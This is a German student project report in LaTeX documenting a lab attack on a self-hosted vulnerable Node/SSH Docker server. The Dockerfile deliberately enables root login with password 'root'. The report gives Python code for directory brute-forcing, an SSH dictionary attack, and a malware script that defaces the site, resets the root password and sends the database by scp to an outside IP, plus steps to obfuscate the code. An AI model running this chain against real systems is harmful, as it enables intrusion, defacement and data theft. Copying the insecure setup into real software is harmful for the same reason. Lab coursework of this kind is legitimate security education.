% class definitions
\documentclass[12pt]{article}
\usepackage[ngerman,english]{babel}
\setlength{\parindent}{0em} 

% Packages

\usepackage[utf8]{inputenc}
\usepackage[ngerman]{babel}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{blt}
\usepackage{lmodern}
\usepackage{tabto}
\usepackage{listings}
\usepackage{quoting} %
\usepackage{lipsum}
\usepackage[left, pagewise, edtable]{lineno}
\quotingsetup{font={itshape}, leftmargin=2em, rightmargin=0in, vskip=1ex}
\usepackage{framed} 
\usepackage{xcolor}
\usepackage{tcolorbox}
\usepackage{xcolor} 
\colorlet{shadecolor}{gray!25}
\definecolor{mshadecolor}{rgb}{0.7421875,0.7421875,0.7421875}

%myshaded
\newenvironment{myshaded}{\colorlet{shadecolor}{lightgray}\color{black}\begin{shaded}\begin{internallinenumbers}}{\end{internallinenumbers}\end{shaded}}

%bibtext
\usepackage[backend=biber, style=authoryear]{biblatex}
\addbibresource{quellen.bib}


% Front page

\title{\small{WPM}\\\vspace{3mm}\Large{Hacking mit Python\\\small{Projektdokumentation}}}
\author{ \small{verfasst von}\\ Moritz Rupp}
\date{Sommersemester 2022}

%Document start 
\begin{document}



\maketitle
\newpage
\tableofcontents
\newpage

\begin{abstract}
\noindent In dem Modul 'Hacking mit Python' ist es Aufgabe verschiedene Services wie ein HTTP Server und SSH automatisiert anhand der Programmiersprache Python anzugreifen und zu kompromitieren.\\ Hierfür können verschiedene Frameworks und Tools genutzt werden. 
\end{abstract}

\section{Einleitung}
Anwendungen wie Webserver sind häufig der zentrale und angreifsbarste Teil einer digitalen Infrastrustur. So werden hier meist nicht nur harmlose Html Dokumente abgerufen, sondern häufig auch Sicherheitsrelevante Dienste und Dateien gehosted. Dies können Zugänge der Schnittstelle, unverschlüsselte Nutzerdaten oder viele weitere sensitive Informationen sein.
\\
Ziel dieses Projektes ist es die angreifbare Infrastrustur in Form des Webserver bereitzustellen und diesen anschließend anhand einer in Python programmierten Software anzugreifen.
Der Angriff soll im ersten Schritt alle Inhalte des Opfer-Servers aufspüren und herunterladen. Anschließend sollten über den Browser alle Seiten automatisiert besucht und die Funktionalität genutzt werden.
Des weiteren ist eine in der Infrastrustur bereitgestellte Schnittstelle wie SSH anhand eines Wörterbuch-Angriffs zu kompromitieren. Abschließend soll mit den erlangten Zugangsdaten eine Schadsoftware auf den Opfer-Server geladen werden, mit dieser ein defacement der gehosteten Webseite umgesetzt werden kann.\\
Dieses Dokument beleuchtet die Umsetzung und Implementierung der einzelnen Schritte.  

\newpage
\section{Infrastrustur}
\subsection{Opfer-Server}
Der Opfer-Server soll ein Http-Server mit angreifbarer Webanwendung und Schnittstelle sein. Hierfür kommen etliche Frameworks und Distributionen wie Apache und xampp in Frage.
Aufrund der Anforderungen habe ich mich für eine Node Anwendung in einem Docker Container entschieden.
Container sind eine leichtgewichtige Art von Virtualisierung auf Betriebssystemebene[1]. Dies kann genutzt werden um eine Anwendung mitsamt ihren Abhängigkeiten als eine abgeschlossene Einheit zu verpacken und zu betrieben. Dies bietet Vorteile wie Plattformunabhängigkeit und einfache Ausfürbarkeit. In diesem Fall wird ein node Web-Server mitsamt SSH Service aufgesetzt.\\
Das Packet aus Anwendung und Abhängigkeiten
nennt man auch Container-Image[2]. Dies kann anhand des Dockerfiles erzeugt werden. Das Dockerfile enthält alle Instruktionen die zur Erstellung des Images benötigt werden.  \\
\begin{shaded}
\begin{internallinenumbers}
FROM ubuntu:latest

RUN apt update \&\& apt install  openssh-server sudo -y

RUN apt install git -y

RUN apt install nodejs -y

RUN apt install npm -y

RUN npm install express

RUN npm install better-sqlite3

RUN npm install morgan

RUN echo "PermitRootLogin yes"\>etc/ssh/sshd\_config

RUN  echo 'root:root' | chpasswd

RUN service ssh start

EXPOSE 22

RUN git clone https://github.com/mauriceKalevra/Web2-Projekt.git

WORKDIR Web2-Projekt

RUN npm install

RUN echo  "/usr/sbin/sshd -D \& node app.js">entrypoint.sh

RUN chmod 700 entrypoint.sh

CMD ./entrypoint.sh
\end{internallinenumbers}
\end{shaded}
\begin{center}
 Textbeispiel 1: Dockerfile des Http-SSH-Servers
\end{center}
Ein Container wird stets auf einem Base Image aufgebaut. Dieses dient als Fundament für alle folge Instruktionen und enthält je nach Image ein grundlegendes Dateisystem sowie vorinstallierte Software.\\
In Zeile 1(vgl. Textbeispiel 1) wird als Base Image Ubuntu deklariert. 
Anschließend werden verschiedene Dienste wie openssh, git, nodejs sowie einige npm Packete installiert.
In Zeile 10 wird das root Passwort für die Schnittstelle des Webservers bzw. Containers festgelegt. Die eigentliche Webanwendung wird in Zeile 13 als ein Repository durch git heruntergeladen und ins Zeile 15 installiert. In Zeile 16 wird das Kommando zum starten des SSH Dienstes und der Node Anwendung in ein Bash-Skript geschrieben, um dieses anschließend ausführbar zu machen und in Zeile 18 zu starten.\\
Mit \colorbox{mshadecolor}{\parbox{0.46\textwidth}{Docker build -t victim-http-server .}} wird aus dem Dockerfile ein Image erstellt. Alternativ kann das kompilierte Image auch über Dockerhub mit \colorbox{mshadecolor}{\parbox{0.58\textwidth}{Docker pull mauriceKalevra/ssh-node-server}} geladen werden. Dieses kann nun mit \colorbox{mshadecolor}{\parbox{0.51\textwidth}{Docker run -p 22:22 victim-http-server}} gestartet werden. Nun läuft der HTTP Server und die Webanwendung ist im Browser unter
\colorbox{mshadecolor}{\parbox{0.20\textwidth}{173.17.0.2:1337}} einsehbar. Des weiteren ist eine Admin Schnittstelle über \colorbox{mshadecolor}{\parbox{0.26\textwidth}{ssh root@173.17.0.2}} erreichbar.
\subsubsection{Webanwendung}
Als Webanwendung dient ein Projekt aus einem früheren Semester[3]. Dort war es Aufgabe eine Dynamische Webseite unter anderem mit einem NodeJs backend zu entwickeln. In der Anwendung 'Real-Estate Albsig' ist es möglich Immobilien Angebote zu Inserieren, suchen und einzusehen. Die Inserate und gesuche werden zudem auf dem Webserver in einer sqlite Datenbank gespeichert. Die Anwendung enthält mehrere Html/Css Dokumente, Ordner für Bilder, Javaskript Dateien und die Datenbank welche in einem Isolierten Verzeichniss liegt. Des weiteren exisitiert ein Dockerfile mit entsprechenden Konfigurationen.          
\newpage
\section{Angriffe auf den Opfer-Server}
\subsection{Spider-Angriff}
Bei einem Spider Angriff ist es Ziel alle Ressourcen eines Webservers aufzusprüren und Herunterzuladen.
In der Funktion 'myscrape'(vgl. Figure 1) war erster Ansatz mit hilfe der python Biblothek 'Beautifullsoup' alle html Dokumente ausfindig zu machen.
Hierbei wird auch mit dem python modul 'requests' gearbeitet. Dieses nimmt als Parameter eine url entgegen und holt über ein http request das html Dokument ein(vgl. Zeile 2). Dieses wird nun mit Beautifullsoup geparsed(vgl. Zeile 3). In Zeile 5 werden nun in einer for schleife alle html hyperlink-tags gefunden, in Zeile 6 auf die urls minimiert(vgl. Zeile 7) und schließlich ausgegeben.
\begin{figure}[h]
 \caption{Python Funktion myscrape}
 \begin{lstlisting}[language=python, style=code]
 def myscrape(url):
 	r = requests.get(url)
 	soup = BeautifulSoup(r.text,"html.parser")
	for links in soup.find_all("a"):
	 	href = links.attrs['href']
	 	print(href)
  
 \end{lstlisting}

\end{figure}
\begin{figure}[h]
 \caption{Ausgabe der Funktion myscrape}
 \centering
 \vspace{3mm}
 
\includegraphics[scale=0.4]{data/myscrape.png}
 \end{figure}


\newpage
Um alle weiteren Html Dokumente sowie Verzeichnisse und Bilder zu finden, wird die Klasse 'mySpider' implementiert. Die Methode 'mygobuster' verwendet unter anderem Wörtlisten um weitere Resourcen zu finden.
\begin{figure}[h]
\caption{Python Funktion mygobuster}
\begin{lstlisting}[language=python, style=Code]
def mygobuster(self,target):
	wordlist = [a.strip() for a in open("wordlist.txt")]
	filters = [".html",".css","jpg", "",".js",".md",".png"]
	html = open("html.txt", "a+") 
	for word in wordlist:
		for f in filters:
			url = target+word+f
			re = requests.head(url)
		
			if re.status_code==301 or re.status_code==401:
				print("Directory found: ", re.url, re.status_code)
				newurl = re.url+"/"
			
				self.mygobuster(newurl)
			
			elif re.status_code==200:
				print("Found: ", re.url, re.status_code)
				response = urllib.request.urlopen(url)
				if ".html" in re.url:
					html.write(re.url+"\n")
				try:
					Content = response.read().decode('utf-8')
					f =open("found/"+str(re.url).replace("/",""), 'w+')
					f.write(Content)
					f.close()
				except:
					Content = response.read()
					f=open("found/"+str(re.url).replace("/",""), 'wb+')
					f.write(Content)
					f.close()
				else:
					continue
\end{lstlisting}
\end{figure}

Hierbei wird in Zeile 2 eine Wörterliste mit üblichen Nodejs-Verzeichnis und Dateinamen anhand einer List Comprehension eingelesen und entsprechend formatiert.
In der Liste 'filters' befinden sich Dateiendungen nach denen gesucht werden soll. Nun wird über beide Listen iteriert und diese mit der url des Opfer-Servers verknüpft(vgl. Zeile 7) und dem Modul request übergeben(vgl. Zeile 8). Mit diesem ist es möglich Http Funktionalitäten zu nutzen. So wird ein Http request an den Opfer-Server geschickt und der Response code ausgelesen(vgl. Zeile 10). Gibt der Webserver den Statuscode 301 zurück, so heißt dies dass die gefunde Resource ein Verzeichnis darstellt[4]. Der Pfad wird ausgegeben und der Variable 'newurl' zugewiesen. Anschließend wird in Zeile 14 die Funktion rekursiv aufgerufen um nach tieferen Verzeichnissen zu suchen. Lautet der Statuscode 200, handelt es sich um eine gefunde Datei wie Html, Css oder Javascript[5]. Auch hier wird der Pfad ausgegeben und zudem entsprechend
 der Dateiendung in eine Datei geschrieben(vgl. Zeile 20). Ab Zeile 21 wird zudem in einem try-except Block der Fall abgefangen das ein binary File gefunden wird.  
Die Funktion ist in der Lage ein großteil der Dateien und Verzeichnisse zu finden. 

Des weiteren versucht die Funktion CSSbuster weitere Dateien ausfindig zu machen, die in CSS Dateien angegeben sind. Hierbei wird mit Regulären ausdrücken die CSS Datei auf urls untersucht(vgl. Zeile 5). Anschließend werden mit ähnlichem Ansatz die Dateien heruntergeladen und der Pfad in eine Datei geschrieben.
\begin{figure}[h]
 \caption{CSSbuster}
 \begin{lstlisting}[language=python, style=code, basicstyle=\scriptsize]
 def CSSbuster(self, target):
 		r  = requests.get(" http://172.17.0.2:1337/stylesheet.css")
 		data = r.text
 		l = []
 		for i in re.findall('url\(([^)]+)\)',data):
	 		l.append(i)
	 		s = [x[2:].strip('""') for x in l[:2]]
	 		for j in s:
		 		response = urllib.request.urlopen(target+j)
		 		if response.code==200:
			 		print("Picture found:", target+j)
			 		con = response.read()
			 		f = open("found/"+str(response.url).replace("/",""), 'wb+')
			 		f.write(con)
				else:
					pass
 \end{lstlisting}
\end{figure}

Die Funktion findet alle in CSS Dateien hinterlegten Bilder.
\newpage
\subsection{Selenium Browser Angriff}
Bei diesem Angriff sollen automatisiert möglichst alle Seiten der Webanwendung besucht werden. Zudem sollen Funktionalitäten wie Formulare befüllt und abgeschickt werden.
\begin{figure}[h]
\caption{Bot Angriff mit Selenium}
 \begin{lstlisting}[language=python, style=code]
 def myBot(self):
 	s=Service('/home/sleven/Studium/Sem5/Hacking-mit-Python/geckodriver')
 	browser = webdriver.Firefox(service=s)
 	for url in open("html.txt"):
		 if url=="http://172.17.0.2:1337/biete.html\n":
		 browser.get(url)
		 time.sleep(1)
		 eingabe = browser.find_element(By.ID,"ort")
		 eingabe.send_keys("Salzburg")
		 eingabe2 = browser.find_element(By.ID,"preis")
		 eingabe2.send_keys("1500")
		 time.sleep(1)
		 eingabe2 = browser.find_element(By.ID,"zimmer")
		 eingabe2.send_keys("5")
		 eingabe3 = browser.find_element(By.ID,"flaeche")
		 eingabe3.send_keys("500")
		 eingabe4 = browser.find_element(By.ID,"kontakt")
		 eingabe4.send_keys("Mori.r@web.de")
		 ein = browser.find_element(By.ID,"saveimmoButton")
		 ein.click()
		 time.sleep(1)
		 browser.get(url)
 \end{lstlisting}

\end{figure}

Anfangs wird der entsprechende Treiber für den Firefox browser eingeladen(vgl. Zeile 2-3). Anschließend wird über die zuvor angelegte Datei mit den Html Dokumenten iteriert und jeweiligen Seiten mit browser.get' geöffnet. In der Seite 'biete.html' werden zudem Formulardaten eingetragen und abgeschickt(vgl. Zeile 5-22).
\newpage
\subsection{SSH Angriff}
Hierbei sollen Admin-Schnittstellen angegriffen und Kompromitiert werden.
Die Webanwendung wird über eine SSH Schnittstelle gewartet. Nun  wird versucht aanhand eines Wörtbuch Angriffes an die Anmeldedaten zu gelangen.
 \begin{lstlisting}[language=python, style=code, basicstyle=\scriptsize]
 def attackssh(ip):
 		try:
 			global que
 			if len(que)==0:
	 			print("Not found, maybe try a new wordlist?!")
	 			return 1
	 		print("Attacking ssh.....")
	 		ssh = paramiko.SSHClient()
	 		ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	 		for line in range(len(que)):
		 		[username, password] = que.popleft().strip().split()
		 		try:
		 			print(f"Trying with {username} {password}")
		 			conn = ssh.connect(ip, username=username,password=password, 			banner_timeout=200)
		 			if conn is None:
						print(username)
			 			credentials = open("cred.txt", "r+")
			 			credentials.write(username)
			 			credentials.write(" ")
			 			credentials.write(password)
			 			print(f"Successfully Authenticated with {username} {password}")
			 			break
			 except paramiko.AuthenticationException:
					print("Failed!")
			 		continue
			 except paramiko.SSHException:
			 		continue
			 except NameError:
					que = deque()
					for word in open("sshwordlist.txt", "r").readlines():
							que.append(word)
					attackssh("172.17.0.2")
				 										Figure 5: SSH-Attack
 \end{lstlisting}
Anfangs wird eine que angelegt, die in einer Exception befüllt wird(vgl. Zeile 28). Die Funktion wird anschließend erneut aufgerufen und es wird überprüft ob die que leer ist. \newpage Nun wird die Paramiko Biblothek aufgerufen(vgl. Zeile 8). Diese bietet SSH Implementierungen für client und serverseitige Funktionalitäten[6]. Ab Zeile 11 wird Username und Passwort aus der que ausgelesen und entsprechen formatiert. Nun wird versucht eine Verbindung mit den übergebenen Anmeldedaten herzustellen(vglt. Zeile 14). Ist die verbidnung erfolgreich, werden Nutzername und Passwort ausgegeben(vgl. Zeile 16) und in die Datei 'cred.txt' geschrieben. Im gleichen Schleifendurchlauf werden zudem exceptions abgefangen. Die Funktion findet das Passwort und gibt es aus.\\

\begin{center}

\includegraphics[scale=0.5]{data/success.png}
\end{center}
\subsection{Schadsoftware}
Nun soll über die erlangten Zugangsdaten eine Schadware auf den Opfer Server geladen werden. Dort soll ein Defacement der Seite umgesetzt und zudem die Zugangsdaten der Schnittstelle geändert werden.\\
Des weiteren sollen von außen nicht zugängliche Dokumente auf ein anderen remote Server geladen werden. Für das Hochladen Schadware werden erst einige Hilfsfunktion implementiert.\\
Die Funktion 'getCredentials' ließt die Zugangsdaten aus der Datei 'cred.txt' aus und formatiert diese entsprechend.
\begin{figure}[h]
\caption{Hilfsfunktion getCredentials}
\begin{lstlisting}[language=python, style=code]
def getCredentials():
	#hole gefunde credentials aus datei
	cred = open('cred.txt','r').readlines()
	#case zu string
	cred_string = cred[0].split()
	#lese username und passwort aus
	user = cred_string[0]
	pw = cred_string[1]
\end{lstlisting}
\end{figure}
\newpage
Das Hochladen der Schadware wird mit einer weitern Hilfsfunktion realsiert.
\begin{figure}[h]
\caption{Hilfsfunktion sendMalware}
\begin{lstlisting}[language=python, style=code]
#send file to remote host
def sendMalware():
	getCredentials()
	print("Sending SW.py to victim....")
	ostring = "sshpass -p " + pw +  " scp -o StrictHostKeyChecking=no SW.py "+ user+"@172.17.0.2:/root"
os.system(ostring)
\end{lstlisting}
\end{figure}
Hierbei wirdmit dem Linux programm scp und sshpass gearbeitet.
In Zeile 5 wird ein string für zusammengesetzt der anschließend mit der python Funktion os.system ausgeführt werden kann[7]. 
\vspace{5mm}

Die eigentliche Schadware arbeitet nun wie folgt. Das Defacement der Website wird umgesetzt indem eine neue Datei 'index.html' erzeugt und mit Html Code befüfflt wird. Hierfür muss zuerst der Pfad der legitimen Datei gefunden werden. In Zeile 4 wird mit subprocess das linux tool 'find' verwendet, um nach html dateien zu suchen.  
\begin{figure}[h]
 \caption{Erster Ansatz Schadware}
 \begin{lstlisting}[language=python, style=code,basicstyle=\scriptsize]
 import os
 import subprocess
 #suche mit linux-find, pfade mit der file endung html
 proc = subprocess.Popen("find / -name '*.html'", shell=True, stdout=subprocess.PIPE)
 output = proc.stdout.readlines()
 for i in output:
	 if "/public/index.html" in str(i):
		 foundpath = i
		 else:
			 continue
			 #defacement der website
			 malware = open(foundpath,"w+")
			 malware.write("<!DOCTYPE html><html><head><title>foobar</title><style>h1 {text-align: center;color: red</style></head><body><h1>You have been compromised</h1></body></html>")
				 
				 #change-cred
				 subprocess.run('echo -n "pwned\npwned" | passwd root', shell=True)
				 os.system("sshpass -p Pw scp -o StrictHostKeyChecking=no pfad sleven@192.46.236.95:/home/sleven")
 \end{lstlisting}

\end{figure}
\newpage
In den gefundenen Dateien wird nun nach der Haupt index Datei gesucht(vgl. Zeile 7). Es ist bekannt das Nodejs ein Verzeichnis namens 'public' besitzt, indem die Html dateien gehosted werden. Der Pfad wird in die Variable 'foundpath' geschrieben. Diese wird in Zeile 12 übergeben um die legitime index.html zu überschreiben. In die neue Html Datei wird nun in Zeile 13 das Defacement geschrieben.\\
Anschließend werden in Zeile 16 die Anmeldedaten geändert. Hierbei werden erneut mit subprocess Linux befehle ausgeführt. Mit echo werden die neuen Anmeldedaten in passwd gepiped.\\
In Zeile 17 wird nun die von außen nicht erreichbare Datei 'Immobilie.db' an ein weiteren Remote Server geschickt. Dies wird erneut mit os.system bewerkstelligt.

Nachdem die Malware auf den Opfer-Server gesendet wurde, wird sie nun von der Funktion 'ExecMalware' ausgeführt.
\begin{figure}[h]
 \caption{Funktion zum ausführen der Schadware}
 \begin{lstlisting}[language=python, style=code,basicstyle=\scriptsize]
 def ExecMalware():
 	getCredentials()
 	client = paramiko.SSHClient()
 	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
 	client.connect('172.17.0.2', username=user, password=pw)
 	time.sleep(1)
 	stdin, stdout, stderr = client.exec_command('python3 SW.py')
	for line in stdout:
	 	print(line)
	 	client.close()
 \end{lstlisting}

\end{figure}
Mit hilfe von Paramiko wird eine SSH Verbindung aufgebaut(vgl. Zeile 5). Anschließend wird in Zeile 7 über stdin des remote Servers die Malware gestartet.\\
Nun galt es die einzelnen Funktionen in eine Anwendung zusammenzuführen um einen komplett automatisierten Angriff zusammenzuführen. Des weiteren werden Methoden der Obfuskation verwendet um Debugging zu erschweren.\\
\newpage
Erster Ansatz war es hier das Python Programm zu byte-code zu Kompilieren.
\begin{center}
 \colorbox{mshadecolor}{\parbox{0.60\textwidth}{python -OO -m py\_compile <your attack.py}}
\end{center}
Des weiteren wird das Tool Oxyry verwendet[8]. Mit diesem ist es möglich komplette möglich Obfuskation zu erlangen.

\begin{figure}[h]
\caption{Obfuskation von Attackssh}
\begin{center}
 
\includegraphics[scale=0.28]{data/obfus.png}
\end{center}

\end{figure}
\vspace{5mm}
Nach Ausführung der Schadware kann festgestellt werden das alle Angriffsziele erreicht wurden. 
\newpage
\section{Eigentständigkeitserklärung}
Hiermit bestätige ich, dass ich die vorliegende Arbeit selbstständig verfasst und keine anderen Publikationen als die angegebenen benutzt habe. Alle Teile meiner Arbeit, die wortwörtlich oder dem Sinn nach anderen Werken entnommen sind, wurden unter Angabe der Quelle kenntlich gemacht. Gleiches gilt für von mir verwendeten Internetquellen. Die Arbeit ist weder von mir noch von einem Kommilitonen in einem anderen Seminar vorgelegt worden.\\
Moritz Rupp, Albstadt, 27.06.2022

\section{References}
[1] Docker Engine overview, 20.06.2022, https://docs.docker.com/engine/

\vspace{4mm}


[2] Docker Hub, 18.06.2022, https://docs.docker.com/docker-hub/onboard-business/
\vspace{4mm}

[3] Web2-Anwendungen-2 Repository, 17.05.2022, https://github.com/mauriceKalevra/Web2-Projekt

\vspace{4mm}

[4] Mozilla dokumentation, 22.06.2022, https://developer.mozilla.org/en-US/docs/Web/HTTP/Status

\vspace{4mm}

[5] Mozilla dokumentation, 22.06.2022, https://developer.mozilla.org/en-US/docs/Web/HTTP/Status

\vspace{4mm}

[6] Paramiko, 16.05.2022, https://www.paramiko.org/

\vspace{4mm}

[7] Python dokumentation, 14.06.2022, https://docs.python.org/3.8/library/os.html\#os.system

[8] Oxyry, 24.06.2022, https://pyob.oxyry.com/

\vspace{4mm}

\textbf{Weitere Quellen}\\
Python-Hacking
Studienbrief 3: Python-Hacks\\
aus "Python Penetration Testing\\
Autoren:\\
Prof. Dr. Martin Rieger
Patrick Eisoldt, M.Eng.
David Schlichtenberger, M.Sc.
Benjamin Welte, M.Eng.
Christian Schneider, M.Eng.
\vspace{4mm}

Python Hacking
Teil 1\\
Autoren:
Prof. Dr. Martin Rieger
Patrick Eisoldt, M.Eng.
David Schlichtenberger, M.Sc.
Benjamin Welte, B.Eng.
Christian Schneider, M.Eng

\end{document}
